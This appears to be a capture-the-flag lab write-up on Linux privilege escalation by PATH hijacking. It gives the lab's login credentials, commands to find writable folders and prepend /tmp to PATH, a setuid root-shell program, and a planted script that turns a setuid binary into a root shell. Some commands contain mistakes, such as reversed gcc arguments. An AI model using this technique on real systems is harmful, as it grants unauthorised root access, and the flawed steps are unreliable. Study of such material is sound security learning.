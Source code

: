 Username: karen
Password: Password1

If a folder for which your user has write permission is located in the path, you could potentially hijack an application to run a script. PATH in Linux is an environmental variable that tells the operating system where to search for executables. For any command that is not built into the shell or that is not defined with an absolute path, Linux will start searching in folders defined under PATH. (PATH is the environmental variable we're talking about here, path is the location of a file).

Typically the PATH will look like this:
```
$ echo $PATH
/usr/local/sbin:
/usr/local/bin:
/usr/sbin:
/usr/bin:
/sbin:
/bin:
/usr/games:
/usr/local/games:
/snap/bin
```
A simple search for writable folders can done using the `find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u` command. The output of this command can be cleaned using a simple cut and sort sequence.
```
dev
etc
home
proc
run
snap
sys
tmp
usr
var
```
Comparing this with PATH will help us find folders we could use. 


We see a number of folders under `/usr`, thus it could be easier to run our writable folder search once more to cover subfolders. 

```
$ find / -writable 2>/dev/null | grep usr | cut -d "/" -f 2,3 | sort -u
snap/core20
usr/lib
```

Unfortunately, subfolders under /usr are not writable


The folder that will be easier to write to is probably /tmp. At this point because /tmp is not present in PATH so we will need to add it. As we can see below, the `export PATH=/tmp:$PATH` command accomplishes this. 
```
$ export PATH=/tmp:$PATH
$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

Back to the machine, in the `murdoch` directory we have
```
$ cd home
$ ls
matt  murdoch  ubuntu
$ cd murdoch
$ ls
test  thm.py
$ file *
test:   setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=1724ca90b94176ea2eb867165e837125e8e5ca52, for GNU/Linux 3.2.0, not stripped
thm.py: Python script, ASCII text executable
$ cat thm.py
/usr/bin/python3

import os
import sys

try: 
	os.system("thm")
except:
	sys.exit()
```
The idea is to create a executable file in /tmp, in this case, `thm.c` and `thm`
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void) {
    setuid(0);
    setgid(0);
    system("/bin/bash -p");
    return 0;
}
```
Command:
```
$ echo '#include <stdio.h>\n#include <stdlib.h>\n#include <unistd.h>\nint main(void) {setuid(0);setgid(0);system("/bin/bash -p");return 0;}' > thm
```
```
$ gcc -o thm.c thm
$ chmod +x thm
$ chmod +s thm
```
But GCC compiler is not installed in the machine, so we can use a simpler way to get root
```
$ echo "/bin/bash" > thm
$ chmod +x thm
$ chmod +s thm
$ cd /home/murdoch
$ ./test
root@ip-10-10-72-136:/home/murdoch# 
root@ip-10-10-72-136:/home/murdoch# cat /home/matt/flag6.txt
THM-736628929
```